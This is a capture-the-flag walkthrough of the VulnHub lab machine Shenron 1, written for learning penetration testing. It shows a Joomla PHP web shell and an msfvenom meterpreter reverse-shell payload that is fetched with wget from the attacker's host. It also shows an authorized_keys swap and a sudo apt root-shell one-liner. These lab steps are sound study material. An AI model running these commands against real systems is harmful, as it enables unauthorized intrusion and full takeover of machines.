 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-09-03 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [Vulnhub, Writeup, Joomla]   
image:
   path: /assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/box-shenron1.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) ffuf
4) Metasploit Framework<br>
### Environment Set up
To ensure success as a penetration tester, staying organised is crucial. Proper organisation streamlines documentation and tracking of progress. In this workshop, we will create a directory tree to systematically manage our work, with detailed descriptions of each directory's purpose available here.
![Working Dir](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform these using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command below.<br> ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```<br><br>
![Service Scan](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache index page.
![Wep App Index Page](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In a real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing using **ffuf**, but you can use any tool of your preference. Here’s the command I used:<br>
```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br><br>
![Directory Fuzzing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process uncovers two interesting directories which are the *test* and *joomla*. The directory Joomla already gives us a hint that the web application may be running the well-known Joomla CMS. Let's browse these directories chronologically as they are in our results. Upon browsing to the test directory, we noticed that directory listing is enabled, which constitutes a vulnerability since it appears to expose a file containing passwords. We should document this finding in our Findings folder.
![Directory Listing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

Accessing the file reveals a pair of credentials for an admin user. We can keep a note of these credentials in a file.
![File Accessed](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember, we discovered credentials hidden in the comments of the password file. Let's use these credentials to log in to the Joomla administrative interface, which is typically located in the administrator directory.
*NB: By default, Joomla's administrative interface is accessed through the administrator directory.*
![Joomla Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
Great, we successfully logged in as the admin. Next, we move to Extensions -> Templates -> Templates where attempt to add a PHP shell to a PHP file in an unused template. Here, I chose the protostar template and added a basic PHP shell ``` system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name for the GET parameter value such as a hash. This is because anyone can access that file hence if a common name is used, attackers may bruteforce it and also use it to establish their foothold in your client's environment.*
![Template Modification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying the template we can now execute commands on our target by browsing to the page and specifying the command we want to run as the GET parameter's value.<br> 
```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br><br>
![RCE Test](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.<br>
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br><br>
![Payload Crafting](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
After crafting the executable payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on the target to download the payload to the /tmp directory.<br> ```wget http://10.0.2.15/update.elf -O /tmp/update.elf```<br><br>
![Download Operation](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing the payload, we need to configure and run a listener in Metasploit.
![Metasploit Set Up](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting the listener we now give execution permission to our payload and execute it.
![Payload Execution](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Upon going back to the listener, we can see that the listener caught a reverse shell connection from the target.
![Catching Shell](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
Web applications usually contain a configuration file that stores database credentials. These credentials are used by the web application to connect to the database server. It's a good habit to search for this configuration file which is usually located in the web root directory. On this machine, the file is named web.config.txt. Reading its contents reveals the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user Jenny who is also a user on the target machine. Let's try to authenticate as Jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

## Post Exploitation
At this stage in our CTF assessment, we have identified that the user is vulnerable to password reuse. Using this password, we can now check if the user has any sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great, the user Jenny can perform copy operations by impersonating Shenron. Since we observed an SSH service running during our service enumeration, let's use the sudo privileges to replace Shenron's SSH key. To do this, I first generate a key pair \(private, public\) on my attack host and upload the public key using the same method used above but you may decide to upload it using our powerful meterpreter.
![SSH Key Gen](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key I replaced the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo privileges and then afterward I used the private key to log in as Shenron.
![SSH Key Replace](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
We successfully logged in as Shenron we can now use this new account to read the user's flag and further the enumeration process of the system.
![User Flag](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string 'password' in their names with the command below.<br> ```find / -iname *password* 2>/dev/null```.<br> We got a hit in the /var/opt directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-enum-2.png)
We can now use that password to read Shenron's sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-2.png)
We observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. the command GTFOBins provides us with a way of exploiting this privilege but I chose to use the command below. <br>```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh```<br><br>
![Root Access](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png)<br>
Great, we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Congratulations, In this walkthrough, you learned how a seemingly simple file listing vulnerability, which exposes sensitive information, can be exploited to take over a machine. We demonstrated how unauthorized access to file directories and the disclosure of sensitive files can provide critical information that attackers can use to escalate privileges and gain full control of the system. This walkthrough highlighted the importance of securing file listings and properly managing access controls to prevent such vulnerabilities from being exploited. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up on this walkthrough.
